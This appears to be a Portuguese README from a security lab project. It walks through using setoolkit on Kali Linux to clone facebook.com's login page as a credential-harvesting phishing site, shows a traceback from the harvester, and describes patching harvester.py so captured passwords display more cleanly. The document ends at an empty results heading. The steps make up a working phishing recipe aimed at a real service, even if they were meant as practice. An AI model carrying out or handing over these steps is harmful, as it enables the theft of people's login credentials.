

# Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

-Após configurado, ao entrar e tentar logar com credenciais falsas encontrei no meio das informações um erro na decodificação de UTF-8, conforme demonstrado abaixo
```----------------------------------------```
```Exception occurred during processing of request from ('192.168.1.5', 40802)```
```Traceback (most recent call last):```
```  File "/usr/lib/python3.13/socketserver.py", line 697, in process_request_thread```
```    self.finish_request(request, client_address)```
```    ~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^```
```  File "/usr/lib/python3.13/socketserver.py", line 362, in finish_request```
```    self.RequestHandlerClass(request, client_address, self)```
```    ~~~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^```
```  File "/usr/lib/python3.13/socketserver.py", line 766, in __init__```
```    self.handle()```
```    ~~~~~~~~~~~^^```
```  File "/usr/lib/python3.13/http/server.py", line 447, in handle```
```    self.handle_one_request()```
```    ~~~~~~~~~~~~~~~~~~~~~~~^^```
```  File "/usr/lib/python3.13/http/server.py", line 435, in handle_one_request```
```    method()```
```    ~~~~~~^^```
```  File "/usr/share/set/src/webattack/harvester/harvester.py", line 303, in do_POST```
```    url = urldecode(qs)```
```  File "/usr/share/set/src/webattack/harvester/harvester.py", line 209, in urldecode```
```    url = url.decode('utf-8')```
```UnicodeDecodeError: 'utf-8' codec can't decode byte 0x9c in position 251: invalid start byte```
```---------------------------------------- ```

-Apesar do erro mencionado acima, foi possivel encontrar as credenciais utilizadas ao estudar os logs, porém, para "sujar" menos a visualização, realisei uma pequena alteração no código do ```harverster.py``` no caminho ```/usr/share/set/src/webattack/harvester/harvester.py``` onde encontrei o trecho do código que decodificava de UTF-8 e o alterei para ```url = url.decode('utf-8', 'ignore')``` para que, caso não seja utf-8, o decode ignorar, feito isso o erro não apareceu mais, ficando mais facil de visualizar, no final, foi possivel verificar as credenciais conforme imagem abaixo

### Resutados

